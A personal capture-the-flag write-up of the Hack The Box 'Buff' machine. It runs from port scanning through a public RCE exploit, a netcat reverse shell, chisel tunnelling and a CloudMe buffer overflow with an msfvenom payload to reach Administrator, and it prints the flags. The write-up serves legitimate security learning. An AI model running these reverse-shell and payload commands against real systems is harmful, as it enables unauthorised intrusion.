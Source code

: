 # Enumeration
## nmap
`nmap -sC -sV -A -v 10.10.10.198 -Pn`
![[Screenshot 2022-05-05 at 15.15.56.png]]
## gobuster
`gobuster dir -u http://buff.htb:8080 -x php,txt,html,bak,zip -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --no-error`
![[Screenshot 2022-05-05 at 16.44.06.png]]
There were loadsss of results, showing it is not a HTB created software but an actual software..
## curl
`curl -X OPTIONS http://10.10.10.198:8080 -i`
![[Screenshot 2022-05-05 at 15.17.28.png]]
![[Screenshot 2022-05-05 at 15.23.15.png]]


# Foothold
## website exploration / burp
When trying to log in with _admin:admin_ an error message pops up.
PHP
contact page:
![[Screenshot 2022-05-05 at 15.20.02.png]]
--> Looking up this software eimmediately lead me to [exploit-db](https://www.exploit-db.com/exploits/48506) which showed a RCE exploit.
# Exploit
## searchsploit
`searchsploit apache 2.4.43`
![[Screenshot 2022-05-05 at 15.29.20.png]]
Combined with the exploit-db article found, I believe its the first result that will be handy!
`searchsploit gym management system 1.0`
![[Screenshot 2022-05-05 at 15.56.19.png]]

## execution
I ran `python2 /usr/share/exploitdb/exploits/php/webapps/48506.py 'http://10.10.10.198:8080/'` and it gave a very unstable shell, but a shell nonetheless:
![[Screenshot 2022-05-05 at 16.15.59.png]]

Changing directories was not possible, but reading the user.txt file was still possible with `type \users\shaun\desktop\user.txt`

# Shell Upgrade
The unstability of the shell got old.. so I decided to upgrade it using a nc shell. Hacktricks directed me to [this nc.exe](https://github.com/int0x33/nc.exe/). Looking at the previous enumeration, I remembered the system was 64-bit, so I decided to use this.

## process
1. `git clone https://github.com/int0x33/nc.exe.git` kali
2. `python3 -m http.server 8000`in kali + `curl http://10.10.14.19:8000/nc64.exe --output nc64.exe` in windows 
3. `nc64.exe -e cmd.exe 10.10.14.19 4444` windows

![[Screenshot 2022-05-05 at 16.39.05.png]]

# Privesc
## enumeration 2
another nmap scan for more ports
Uploaded winpeas and a LOT of vulnerabilities were found:
![[Screenshot 2022-05-05 at 16.46.00.png]]. They all seemed to be part of one main privesc [Windows Elevation of Privilege Vulnerability](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934). At first I thought this was simply just too arbitrary of a name. But looking more into it, it appears its such a 'fundamental' privesc that it was given this name.

`whoami /all`
![[Screenshot 2022-05-07 at 12.58.46.png]]
--> _SeChangeNotifyPrivilege_ could potentially be useful.
--> The _BUILTIN\Users_ also caught my attention

`net users`
![[Screenshot 2022-05-07 at 13.05.29.png]]
--> I believe we are shaun but the _defaultacount_ could be something which systems forget to secure because they assume noone uses it.

`net localgroup`
![[Screenshot 2022-05-07 at 13.09.58.png]]


`netstat -ano | findstr TCP | findstr ":0"` to see processes being ran:
![[Screenshot 2022-05-06 at 21.00.57.png]] But I could not immediately identify anything suspicious being ran although 127.0.0.1:8888 was looking a lil sus. 

Looking through the results for `tasklist /v` the processes ran by current user was _conhost.exe_, _mysqld.exe_ and _httpd.exe_, _cmd.exe_, _conhost.exe_, _nc.exe_ and _tasklist.exe_
--> DB dump?
Looking into the other processes and programs being ran, not recognising most of them I kept inserting _taskname.exe job_ into Google, and as expected most of them are just regular Windows processes for the system to run functionally. However, _CloudMe.exe_ instantly showed a Buffer Overflow vuln. This will be the POA I think!


## try 1 - RottenPotatoes
`curl http://10.10.14.19:8000/tools/RottenPotatoNG/RottenPotatoEXE/x64/Release/MSFRottenPotato.exe --output rotten.exe` was not runnable so unsuccessful:')

## try 2 - CloudMe.exe BoF
Checking out the [exploit-db](https://www.exploit-db.com/exploits/48389) article on the exploit, the instructions were to _start the CloudMe service and run the exploit script_. Not very helpful to me as I was not sure how to start the service..

`dir /b /s C:\*cloudme*` to find the service:
![[Screenshot 2022-05-07 at 19.32.32.png]]

### 1 = [tunnelling](https://infinitelogins.com/2020/12/11/tunneling-through-windows-machines-with-chisel/)
1. Downloaded chisel for [windows amd64](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz) and for [linux amd64](https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz)
2. `gzip -d chisel_1.7.7_linux_amd64.gz` for both
3. `curl http://10.10.14.19:8000/HTB/buff/chisel_1.7.7_windows_amd64 --output chisel.exe` on target machine in _\Users\shaun\Downloads directory_
4. `./chisel_1.7.7_linux_amd64 server -p 9001 --reverse` from attacking machine
5. `chisel.exe client 10.10.14.19:9001 R:8888:127.0.0.1:8888` from _\Users\shaun\Downloads_
### 2 = generating new payload 
`msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc64.exe -e cmd.exe 10.10.14.19 9001' -b '\x00\x0A\x0D' -f py -v payload`, update the python script + set up nc listener for the port..
### 3 = executing
`python2 48389.py` and a shell was spawned:
![[Screenshot 2022-05-08 at 12.01.20.png]]
**Did not work when I tried again?**

`type \Users\Administrator\Desktop\root.txt` to get flag:)

# Flags
ddbfc9da4bef41a24d96608f956361c4
b99ddd21937b853c5a116cbb045a3cfb
# Thoughts
- ![[Screenshot 2022-05-05 at 16.47.55.png]]
- `����������͹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  BUFF
    DefaultUserName               :  Administrator`
- xampp+httpd.exe --> `C:\xampp\apache\bin\httpd.exe`
 - `C:\Users\All Users\Microsoft\UEV\InboxTemplates\RoamingCredentialSettings.xml`
 - awk.exe
 - --> next = go through all the CVE's + check which can be exploited. 
# New Things Learnt
- more windows privesc enumeration
- always check sessions/processes running and local connections
- tunneling!
- The CVE's suggested by win/linPeas is normally not the way to go --> too vague and not the purpose of the machines.
- msfvenom payloads can only be excuted once?

![[Screenshot 2022-05-05 at 16.55.22.png]]![[Screenshot 2022-05-05 at 16.56.17.png]]![[Screenshot 2022-05-05 at 16.57.07.png]]![[Screenshot 2022-05-05 at 16.57.56.png]]


### writeups
- https://0xdf.gitlab.io/2020/11/21/htb-buff.html
- [winner](https://resources.infosecinstitute.com/topic/hack-the-box-htb-walkthrough-buff/)
- [diff shell approach using smb](https://infosecwriteups.com/htb-buff-writeup-5d118ab695c0)